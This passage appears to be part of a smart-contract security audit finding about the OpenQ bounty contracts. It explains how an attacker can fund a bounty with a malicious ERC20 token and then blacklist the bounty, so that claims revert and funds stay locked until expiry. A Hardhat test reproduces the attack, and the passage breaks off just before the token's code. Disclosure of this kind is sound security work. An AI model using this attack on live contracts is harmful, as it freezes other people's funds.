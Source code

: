 This attack can be carried out in the following bounty types:
1. AtomicBountyV1
2. TieredFixedBounty
3. TieredPercentageBounty

by using malicious ERC20 tokens following the same attack vector.

## Impact
Bricking of bounty and lock up of funds until expiry timestamp
## Code Snippet
The attack can be recreated using the following test snippet
```javascript
it('should revert when holding malicious token', async () => {
          // ARRANGE
          const volume = 100
          await openQProxy.mintBounty(
            Constants.bountyId,
            Constants.organization,
            atomicBountyInitOperation
          )
          const bountyAddress = await openQProxy.bountyIdToAddress(
            Constants.bountyId
          )
          await depositManager.fundBountyToken(
            bountyAddress,
            ethers.constants.AddressZero,
            volume,
            1,
            Constants.funderUuid,
            { value: volume }
          )

          // Attacker funds with bad token
          const attacker = claimantThirdPlace
          const MockBAD = await ethers.getContractFactory('MockBAD')
          const mockBAD = await MockBAD.connect(attacker).deploy()
          await mockBAD.deployed()
          await mockBAD.connect(attacker).approve(bountyAddress, 10000000)
          await depositManager
            .connect(attacker)
            .fundBountyToken(
              bountyAddress,
              mockBAD.address,
              volume,
              1,
              Constants.funderUuid
            )
          // Blacklist malicious token
          await mockBAD.connect(attacker).setBlacklist(bountyAddress)

          // ACT
          await expect(
            claimManager
              .connect(oracle)
              .claimBounty(
                bountyAddress,
                claimant.address,
                abiEncodedSingleCloserData
              )
          ).to.be.revertedWith('blacklisted')
        })
```
Where the `mockBAD` token is defined as follows, with a malicious blacklist: